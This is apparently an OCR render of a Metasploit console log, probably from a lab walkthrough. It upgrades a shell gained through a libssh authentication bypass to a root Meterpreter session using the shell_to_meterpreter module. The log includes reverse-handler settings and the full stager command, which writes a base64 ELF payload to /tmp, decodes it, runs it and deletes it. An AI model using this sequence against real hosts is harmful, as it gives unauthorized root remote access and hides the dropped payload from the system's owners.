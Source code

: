 ```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   1  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set LHOST eth1
LHOST => 192.198.72.2
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > run

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.198.72.2:4433 
[*] Sending stage (985320 bytes) to 192.198.72.3
[*] Meterpreter session 2 opened (192.198.72.2:4433 -> 192.198.72.3:43780) at 2023-02-03 10:26:41 +0000
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towMZIAmgCABFRieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/tRqxX.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/MXLoT' < '/tmp/tRqxX.b64' ; chmod +x '/tmp/MXLoT' ; '/tmp/MXLoT' & sleep 2 ; rm -f '/tmp/MXLoT' ; rm -f '/tmp/tRqxX.b64'"
[-] Output: "[1] 21"
[*] Post module execution completed
```

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                  Connection
  --  ----  ----                   -----------                                                  ----------
  1         shell                  libssh Authentication Bypass Scanner (SSH-2.0-libssh_0.8.3)  192.198.72.2:38423 -> 192.198.72.3:22 (192.198.72.3)
  2         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.198.72.3                  192.198.72.2:4433 -> 192.198.72.3:43780 (192.198.72.3)
```